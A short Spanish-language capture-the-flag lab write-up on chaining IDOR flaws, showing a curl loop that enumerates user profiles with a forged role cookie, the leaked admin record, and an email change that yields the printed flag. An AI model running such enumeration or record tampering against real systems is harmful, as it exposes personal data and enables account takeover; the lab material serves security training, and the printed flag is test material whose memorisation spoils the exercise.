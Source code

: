 # Laboratorio: Chaining IDOR's 🔗

1. Visitamos la web 

<p align="center">
    <img src="./assets/03-Mass_IDOR/01-Web.PNG" width=400>
</p>

---

2. Como sabemos de antemano que necesitamos encontrar un usuario con el **`role`** de administrador, usaremos **cURL** para encontrarlo
* `for i in $(seq 1 20); do curl -s -X GET "http://[IP]:[PORT]/profile/api.php/profile/$i" -H "Cookie: role=employee" | jq; done`

* **Output**
```json
<SNIP>
{
  "uid": "10",
  "uuid": "bfd92386a1b48076792e68b596846499",
  "role": "staff_admin",
  "full_name": "admin",
  "email": "admin@employees.htb",
  "about": "Never gonna give you up, Never gonna let you down"
}
```
---
3. Una vez tenemos todos los datos del usuario `admin`, lo que haremos es actulizar su correo por `flag@idor.htb` para **obtener la flag** 🏴


<p align="center">
    <img src="./assets/06-Chaining/01-Burp.PNG" width=450>
</p>

* **Flag:** `HTB{1_4m_4n_1d0r_m4573r}`